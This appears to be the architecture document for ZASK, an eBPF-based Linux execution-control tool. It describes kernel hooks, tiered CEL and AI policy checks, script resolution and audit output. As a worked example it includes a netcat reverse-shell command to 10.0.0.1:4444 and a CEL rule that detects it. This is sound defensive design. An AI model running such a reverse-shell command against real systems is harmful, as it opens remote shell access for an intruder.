

# Architecture

This document describes how ZASK processes execution events end-to-end, from the kernel LSM hook through the tiered policy engine to audit output.

## System Overview

ZASK is a **hybrid control plane** that bridges the high-performance, restrictive world of the Linux kernel with the high-intelligence, high-latency world of LLMs. The enforcement path (nanoseconds) is separated from the analysis path (seconds).





---

## Execution Paths

Every `execve()`-family syscall triggers the eBPF LSM hook. The event then follows one of two paths through the Go engine depending on whether a known interpreter is executing a script or a regular binary is running directly.

### Path 1: Direct Binary Execution

This is the common case — a compiled binary like `/usr/bin/nc`, `/usr/local/bin/malware`, or `/usr/bin/ls` is executed directly.

```
execve("/usr/bin/nc", ["nc", "10.0.0.1", "4444", "-e", "/bin/sh"])
```

**Kernel (eBPF):**

1. The LSM hook on `bprm_check_security` fires.
2. Extract the binary's `{inode_number, device_id}` from `linux_binprm → file → f_inode`.
3. Look up `verdict_map` — if BLOCK, return `-EPERM` (execution never starts).
4. Reserve a slot in the ring buffer and populate the `event` struct:
   - `argv` = `/usr/bin/nc` (from `bprm->filename`)
   - `script_argv` = `10.0.0.1` (raw argv[1] — not a script, just an argument)
   - `pid`, `ppid`, `uid`, `cgroup_id`, `inode_number`, `device_id`
5. Submit the event to user-space.

**Go Engine:**

1. **Interpreter check:** `filepath.Base("/usr/bin/nc")` = `"nc"` → not in the interpreter set → skip script resolution.
2. **Tier 1 — Inode Cache:** Check if this binary's inode is in the LRU cache (known-good). If yes, return `ALLOW` immediately.
3. **Tier 2 — CEL Rules:** Evaluate the event against all loaded rules (first match wins). CEL conditions can inspect `argv`, `uid`, `pid`, `cgroup_id`, etc. Three outcomes:
   - **BLOCK** match → `SIGKILL` + write inode to `verdict_map` (in lockdown mode).
     ```yaml
     condition: 'argv.contains("nc") && argv.contains("-e") && argv.contains("/bin/sh")'
     ```
   - **ALLOW** match → add inode to Tier 1 cache immediately + skip Tier 3. This fast-paths trusted system binaries (`/usr/bin/grep`, `/usr/sbin/modprobe`, etc.) so they don't consume AI analysis capacity.
     ```yaml
     condition: 'argv.startsWith("/usr/bin/") || argv.startsWith("/usr/sbin/")'
     ```
   - **ALERT** match → log only, execution proceeds.
4. **Tier 3 — AI Queue:** If no rule matched, cache the inode as known-good and route the event to the AI analysis queue (rate-limited). Events that matched an ALLOW rule at Tier 2 are **not** routed here.
5. **Audit:** Emit an `AuditEvent` with the full decision context to all configured outputs (JSON, Parquet, Text).

### Path 2: Script/Interpreter Execution

When a known interpreter runs a script, ZASK identifies the *script* as the real subject — not the interpreter binary. Without this, a rule blocking `/usr/bin/python3` would break every Python program, while a malicious `/tmp/evil.py` would slip through.

```
execve("/usr/bin/python3", ["python3", "-u", "/tmp/evil.py"])
```

**Kernel (eBPF):**

1–3. Same as Path 1 — inode extracted is Python's inode, verdict_map checked.

4. Populate the `event` struct:
   - `argv` = `/usr/bin/python3`
   - `script_argv` = `-u` (raw argv[1] — a flag, not the script path)
5. Submit the event.

**Go Engine — Script Resolution:**

1. **Interpreter check:** `filepath.Base("/usr/bin/python3")` = `"python3"` → found in the interpreter set.
2. **eBPF argv[1] inspection:** `script_argv` = `"-u"` — starts with `-`, so it's a flag, not a path.
3. **Procfs fallback:** Read `/proc/[pid]/cmdline` → `["python3", "-u", "/tmp/evil.py"]`. Scan arguments, skip flags starting with `-`, return the first path-like argument → `"/tmp/evil.py"`.
4. **Update event:** Overwrite the event's `ScriptArgv` field with `"/tmp/evil.py"` so downstream CEL rules see the resolved script path.
5. **Inode swap:** Resolve `/tmp/evil.py` to its `{inode_number, device_id}`. This becomes the cache/block key — not Python's inode.

```
argv[1] from eBPF             procfs fallback
    "-u"          ───────►    "/tmp/evil.py"
   (flag)                     (script path)
```

6. **Tier 1–3:** The decision cascade runs as in Path 1, but:
   - The inode cache key is the *script's* inode, not the interpreter's.
   - CEL rules can match on `script_path`: `script_path.startsWith("/tmp/") && uid == 0`.
   - If BLOCK, the script's inode is written to the verdict map — future executions of the same script file are blocked at the kernel level regardless of which interpreter runs it.

**Why this matters:**

| Without script awareness | With script awareness |
|---|---|
| `/usr/bin/python3` inode is cached/blocked | `/tmp/evil.py` inode is cached/blocked |
| Blocking Python blocks ALL Python scripts | Only the malicious script is blocked |
| Rules can only match on `argv` (the interpreter) | Rules can match on `script_path` (the actual script) |
| `python3 -u /tmp/evil.py` — argv[1] is `-u`, script missed | Procfs fallback finds `/tmp/evil.py` in argv[2] |

### Known Interpreters

The following binaries trigger script-aware resolution by default:

`python3`, `python`, `python2`, `bash`, `sh`, `zsh`, `dash`, `fish`, `node`, `nodejs`, `ruby`, `perl`, `php`, `lua`

This list is configurable via `spec.interpreters` in the config file. Both bare names and full paths are accepted — see [Configuration Reference](configuration.md#specinterpreters).

---

## Tier Details

### Tier 1: Inode LRU Cache

- **Purpose:** Fast-path skip for known-good binaries (avoids repeated CEL evaluation for `ls`, `cat`, etc.).
- **Key:** `{inode_number, device_id}` — never PID-based, persists across process lifetimes.
- **Eviction:** Time-based TTL (default: 5 min) + LRU when at capacity (default: 10,000 entries).
- **Population:** Binaries (or scripts) are added to the cache in two scenarios:
  1. **No rule match** — the event passes Tier 2 without matching, and is added as known-good before routing to Tier 3.
  2. **ALLOW rule match** — an explicit ALLOW rule matches at Tier 2, adding the inode immediately and skipping Tier 3 entirely. This is the primary mechanism for fast-pathing trusted system binaries.

### Tier 2: CEL Policy Engine

- **Purpose:** Deterministic, low-latency rule matching against structured event attributes.
- **Language:** [CEL (Common Expression Language)](https://github.com/google/cel-go) — type-safe, sandboxed, fast evaluation.
- **Variables available in rules:**

| Variable | Type | Source |
|---|---|---|
| `argv` | string | Binary path from `bprm->filename` |
| `script_path` | string | Resolved script path (empty for non-interpreter executions) |
| `pid` | int | Process ID |
| `ppid` | int | Parent process ID |
| `uid` | int | User ID |
| `cgroup_id` | int | cgroup ID (host vs. container) |
| `inode` | int | Binary inode number |

- **Actions:**

| Action | Behavior | Tier 3 | Tier 1 Cache |
|--------|----------|--------|--------------|
| `BLOCK` | SIGKILL + write inode to verdict map | Skipped | Not added |
| `ALLOW` | Explicitly whitelist — inode added to Tier 1 cache | Skipped | Added immediately |
| `ALERT` | Log warning, execution proceeds | Continues to Tier 3 | Not added |

- **Rule ordering (first match wins):** Rules are evaluated top-to-bottom. The first matching rule determines the action — remaining rules are skipped. This means BLOCK rules must be placed **before** broad ALLOW catchalls to avoid accidentally whitelisting threats. See [Configuration Reference](configuration.md#rule-ordering-first-match-wins) for examples.
- **Hot-reload:** Rules file is watched via `fsnotify`. Invalid reloads preserve the previous ruleset.

### Tier 3: AI Semantic Analysis

- **Purpose:** Catch obfuscated threats that static rules miss (Base64-encoded payloads, novel exploit patterns).
- **Rate limiting:** Token bucket algorithm prevents overwhelming the AI provider.
- **Feedback loop:** AI verdicts flow back into the verdict map, promoting runtime detections to kernel-speed enforcement.

---

## Enforcement Modes

| Mode | SIGKILL | Verdict Map Write | Audit Logging |
|---|---|---|---|
| **Lockdown** (default) | Yes | Yes | Yes |
| **Monitor** | No | No | Yes |

In **monitor mode**, the engine evaluates all tiers and emits audit events, but enforcement actions (SIGKILL, verdict map writes) are suppressed. This enables dry-run deployments for rule tuning and baseline collection.

---

## Audit Pipeline

Every processed event produces an `AuditEvent` containing the full decision context:

```
Timestamp, PID, PPID, UID, Argv, ScriptPath, Inode, DeviceID,
CgroupID, Tier, Action, RuleName, Mode, Reasoning
```

Events are fanned out to all configured writers via a buffered internal channel (non-blocking for the engine):

| Format | Use Case | Output |
|---|---|---|
| **JSON** (NDJSON) | Log pipelines, SIEM ingestion | File or stdout |
| **Parquet** | Data lake analytics, long-term storage | File |
| **Text** | Operator consoles, debugging | File or stdout |

---

## eBPF–Go Data Contract

The eBPF `struct event` and Go `ZaskEvent` must be byte-compatible. The `bpf2go` code generator produces Go bindings from BTF metadata. Key fields:

```
Offset  Size   Field          Description
  0       8    inode_number   Binary inode (u64)
  8       8    cgroup_id      Cgroup ID (u64)
 16       4    pid            Process ID (u32)
 20       4    ppid           Parent PID (u32)
 24       4    uid            User ID (u32)
 28       4    device_id      Filesystem device ID (u32)
 32       1    is_map_hit     1 if verdict_map had an entry (u8)
 33     256    argv           Binary filename (NUL-terminated)
289     256    script_argv    Raw argv[1] from eBPF (NUL-terminated)
```

Total: 545 bytes per event. The ring buffer (256 KB) holds ~470 events before overflowing. Overflows increment a per-CPU drop counter exposed as a metric.


